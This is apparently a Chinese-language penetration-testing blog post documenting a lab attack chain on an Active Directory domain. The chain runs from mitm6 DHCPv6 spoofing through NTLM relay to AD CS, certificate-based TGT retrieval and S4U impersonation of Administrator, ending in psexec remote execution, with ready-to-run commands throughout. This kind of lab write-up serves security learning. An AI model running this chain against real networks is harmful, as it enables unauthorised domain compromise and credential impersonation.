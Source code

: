```yaml
---
title: "mitm6-dhcpv6-中继证书"
date: 2023-02-01 10:09:23 +0800
category: 渗透测试
tags: [内网,渗透测试,ADCS,域]
excerpt: mitm6-dhcpv6-中继证书-模拟TGT获取域内机器权限
---
```


## 环境
+ 域 shigophilo.com

| 机器名 | IP | 系统 | 说明 |
| ---- | ---- | ---- | ---- |
| dc | 10.10.10.130 | win2016 | 域控 |
| ca | 10.10.10.128 | win2008 | 证书服务器|
| win10 | 10.10.10.129 | win10 | administrator和wangwu两个账号登录|
|  | 10.10.10.133 | ubuntu | 攻击机 |

## 目的
获取win10上的administrator和wangwu的TGT

## 过程
### ubuntu上开启mitm6
```
mitm6 --domain shigophilo.com -v
```
### ubuntu上开始ntlmrelayx获取机器账户(win10$)的证书
```
python3 ./ntlmrelayx.py -debug -smb2support -wh 10.10.10.133 --target http://ca.shigophilo.com/certsrv/certfnsh.asp  --adcs --template Machine
```

### 使用证书请求TGT
```
python3 gettgtpkinit.py shigophilo.com/win10\$ -dc-ip 10.10.10.130 -pfx-base64 base64的证书 win10.ccache
```
### 模拟机器上(win10)的用户账户的票据
默认任意用户票据
+ 模拟管理员票据

```
python3 gets4uticket.py kerberos+ccache://shigophilo.com\\win10\$:win10.ccache@dc.shigophilo.com cifs/win10.shigophilo.com@shigophilo.com Administrator@shigophilo.com admin.ccache
```
+ 模拟域用户xiaoqi的票据

```
python3 gets4uticket.py kerberos+ccache://shigophilo.com\\win10\$:win101.ccache@dc.shigophilo.com cifs/win10.shigophilo.com@shigophilo.com xiaoqi@shigophilo.com xiaoqi.ccache
```
### 使用票据
```
export KRB5CCNAME=admin.ccache
psexec.py -k shigophilo.com/Administrator@win10.shigophilo.com -no-pass -dc-ip 10.10.10.130
```
## 排错
### Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADAT
這是因為 KDC 上未啟動 PKInit (Public Key Cryptography for Initial Authentication)
+ DC 可控

如果我們可以控制 DC (測試環境?)，我們只要在 AD 的群組原則 Computer Configuration -> Administrative Templates (Computers) -> System -> KDC ，將 KDC support for PKInit Freshness Extension 和 KDC支持生命.符合身份验证和kerberos
armoring設定為 Enable，即可啟動 PKInit

+ DC 不可控

可以使用 RBCD (Kerberos Resource-Based Constrained Delegation) 的攻擊手段作為替代